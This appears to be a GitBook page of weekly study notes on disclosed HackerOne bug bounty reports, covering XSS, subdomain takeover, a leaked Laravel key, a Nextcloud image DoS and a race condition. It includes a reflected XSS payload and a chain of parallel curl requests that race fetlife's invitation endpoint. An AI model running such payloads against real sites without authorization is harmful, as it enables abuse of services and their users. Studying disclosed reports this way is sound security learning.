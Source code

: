 # 😛 03

## Week 1

### XSS

I am not sure there are some valuable vulnerabilities in this week .

{% embed url="https://hackerone.com/reports/1400197" %}

This is a common reflected XSS in the mail.ru, using

```
"><sCrIpT>alert(1)</sCrIpT>

```

But I am weird how they can find this url.



### subdomain token

The questions of subdomain takeover are also a very common vulnerabilities.

This is a bug report about mail.ru, which has  a unclaimed subdomain that can be takeovered from \`tilda.cc\`&#x20;

{% embed url="https://hackerone.com/reports/1045644" %}



Ruby on Rails has a subdomain using unclaimed Github Page.

{% embed url="https://hackerone.com/reports/1429148" %}

## Week 2 （3.7-3.13）

### 1.

{% embed url="https://hackerone.com/reports/1424094" %}
$2000
{% endembed %}

This is a very serious vulability in GlassDoor.

Actually, this is a bypass for this report:

{% embed url="https://hackerone.com/reports/1343086" %}

And there has a report in detail:

{% embed url="https://infosecwriteups.com/how-i-made-16-500-hacking-cdn-caching-servers-part-2-4995ece4c6e6" %}

\---

### 2.&#x20;

{% embed url="https://hackerone.com/reports/1049402" %}

This is a PHP website written by Laraval, and leaking the APP\_KEY, in the [https://radio.mtn.bj/info\
](https://radio.mtn.bj/info)

\---

### 3.

{% embed url="https://hackerone.com/reports/1337178" %}

This is a very interesting open arbitrary URL vul.

When you share your location, the package contains a objectId parameter, you can change it to any URL. And it would be trigget when you click the share place.

\---

### 4.

{% embed url="https://hackerone.com/reports/1066203" %}

There is no detail, but it must be fun.



\---

### 5.&#x20;

{% embed url="https://hackerone.com/reports/1261225" %}

This is a DoS in the nextcloud.  This DoS is targeted by uploading  a image. The PHP GD would be DoS, when people upload lots of such files which will cause the server to allocate too much memory/CPU.&#x20;

(It's basically an "empty" jpeg file with header information that don't match the actual image.)

\---



### 6.

{% embed url="https://hackerone.com/reports/1460373" %}

VV

Very funny, if you would waste some resources like the invite number, try to race condition

![](<../../.gitbook/assets/image (2).png>)

curl 'https://fetlife.com/users/invitation'

&#x20;\-H 'User-Agent: cur1'&#x20;

\-H 'Cookie: \_fl\_sessionid={session\_id}'&#x20;

\--data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_1}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_2}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_3}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_4}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_5}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_6}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_7}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_8}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_9}' & curl 'https://fetlife.com/users/invitation' -H 'User-Agent: cur1' -H 'Cookie: \_fl\_sessionid={session\_id}' --data 'authenticity\_token={authenticity\_token}\&user%5Bemail%5D={email\_address\_10}'





\---

### 7.

{% embed url="https://hackerone.com/reports/1463638" %}

RXSS



\---&#x20;

### 8

{% embed url="https://hackerone.com/reports/1504410" %}



### 9

{% embed url="https://hackerone.com/reports/1504410" %}
$6,000
{% endembed %}



